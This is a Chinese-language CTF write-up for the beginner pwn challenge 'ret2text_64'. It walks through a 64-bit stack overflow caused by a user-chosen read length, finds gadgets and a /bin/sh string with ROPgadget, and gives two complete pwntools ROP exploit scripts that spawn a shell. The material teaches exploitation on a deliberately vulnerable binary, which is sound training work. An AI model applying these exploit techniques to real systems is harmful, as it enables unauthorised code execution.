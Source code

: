 # ret2text_64

- 作者：pn1fg
- 参考：W4terCTF 2023
- 难度：Baby
- 分类：Pwn
- 镜像：-
- 端口：70

## 题目描述

64位栈溢出

## 题目解析

- 源码：[ret2text_64.c](build/ret2text_64.c)
- 考点：64位下ROP - ret2text

这是`ret2text_32`的升级版，64位程序与32位不同，函数在传参的时候是通过寄存器来传参

64位程序传参：

参数：a，b，c，d，e，f，g，h

- 前 6 个：a->%rdi，b->%rsi，c->%rdx，d->%rcx，e->%r8，f->%r9
- 从第七个开始恢复到 32 位传参方式，从右至左压入栈中

______________________________________________________________________

#### 查看文件信息

查看文件类型：

```shell
>>> file ret2text_64
ret2text_64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d76b1f973484a43907334ef6a59bce3bd057b539, for GNU/Linux 3.2.0, not stripped
```

这是一个 64 位的 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=ret2text_64
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

这里只打开了 NX 保护

#### 分析漏洞成因

反汇编`vuln`函数：

```c
┌ 112: sym.vuln ();
│           ; var size_t nbyte @ rbp-0x4
│           ; var void *buf @ rbp-0x40
│           0x0040125c      f30f1efa       endbr64
│           0x00401260      55             push rbp
│           0x00401261      4889e5         mov rbp, rsp
│           0x00401264      4883ec40       sub rsp, 0x40
│           0x00401268      488d05711100.  lea rax, str.But_this_time..you_need_to_find_the_point_to_get_it_ ; 0x4023e0 ; "But this time..you need to find the point to get it!"
│           0x0040126f      4889c7         mov rdi, rax                ; const char *s
│           0x00401272      e809feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401277      488d05971100.  lea rax, str.Whats_your_age_ ; 0x402415 ; "What's your age?"
│           0x0040127e      4889c7         mov rdi, rax                ; const char *s
│           0x00401281      e8fafdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401286      488d45fc       lea rax, [nbyte]
│           0x0040128a      4889c6         mov rsi, rax
│           0x0040128d      488d05921100.  lea rax, [0x00402426]       ; "%d"
│           0x00401294      4889c7         mov rdi, rax                ; const char *format
│           0x00401297      b800000000     mov eax, 0
│           0x0040129c      e81ffeffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│           0x004012a1      488d05811100.  lea rax, str.Now..try_to_overflow_ ; 0x402429 ; "Now..try to overflow!"
│           0x004012a8      4889c7         mov rdi, rax                ; const char *s
│           0x004012ab      e8d0fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004012b0      8b55fc         mov edx, dword [nbyte]      ; size_t nbyte
│           0x004012b3      488d45c0       lea rax, [buf]
│           0x004012b7      4889c6         mov rsi, rax                ; void *buf
│           0x004012ba      bf00000000     mov edi, 0                  ; int fildes
│           0x004012bf      b800000000     mov eax, 0
│           0x004012c4      e8d7fdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
│           0x004012c9      90             nop
│           0x004012ca      c9             leave
└           0x004012cb      c3             ret
```

本题的漏洞点在`read`函数处，从标准输入，读入大小为 nbyte 的数据存入 buf 数组，buf 的大小 0x40，nbyte 的大小由第一次`scanf`函数接收的为准，所以这题的输入大小由我们决定，可以输入超出 buf 的长度，覆盖 `rbp`的值，造成栈溢出

反编译`b4ckdoor`函数

```c
void sym.b4ckdoor(void)

{
    sym.imp.system("echo hi!");
    return;
}
```

`system`调用`echo`输出 hi ，可惜没有调用`/bin/sh`，这里给大家介绍个工具

ROPgadget，利用这个工具我们可精确的查找到程序中的一些字符串，例如查找`/bin/sh`

- 命令格式：ROPgadget --binary FILE --string "/bin/sh"

```shell
>>> ROPgadget --binary ret2text_64 --string "/bin/sh"
Strings information
============================================================
0x0000000000404050 : /bin/sh
```

上面讲述过64位程序传参需要通过寄存器，刚刚的工具也可以用来寻找寄存器

- 命令格式：ROPgadget --binary FILE --only 'pop|ret'

```shell
>>> ROPgadget --binary ret2text_64 --only 'pop|ret'
Gadgets information
============================================================
0x000000000040119d : pop rbp ; ret
0x000000000040123d : pop rdi ; ret
0x000000000040101a : ret

Unique gadgets found: 3
```

本题我们只需要用到`rdi`

分析到这，本题的大概思路就有了，首先溢出，因为没有后门函数，所以需要我们手动在栈上构造 ROP 链调用`system`执行`/bin/sh`从而拿到 shell。

#### 编写利用程序

这里我们提供两种写法供同学们研究，第一种是比较正规的做法，第二种是懒人做法

[exp.py](writeup/exp.py) :

```python
from pwn import *

context.arch = 'amd64'
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")

pop_rdi_ret = 0x0040123d
bin_sh = 0x00404050
ret = 0x0040101a

io.sendlineafter(b"age?\n", b"1000")

payload = flat([
    cyclic(0x40 + 8),
    pop_rdi_ret,
    bin_sh,
    ret,
    elf.sym["system"]
])
io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```

[exp2.py](writeup/exp2.py) :

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")
rop = ROP(elf)

io.sendlineafter(b"age?\n", b"1000")

padding = cyclic(0x40 + 8)
bin_sh = next(elf.search(b"/bin/sh"))
ret = rop.find_gadget(["ret"])

rop.raw(padding)
rop.raw(ret)
rop.call(elf.sym["system"], [bin_sh])
payload = rop.chain()

io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```
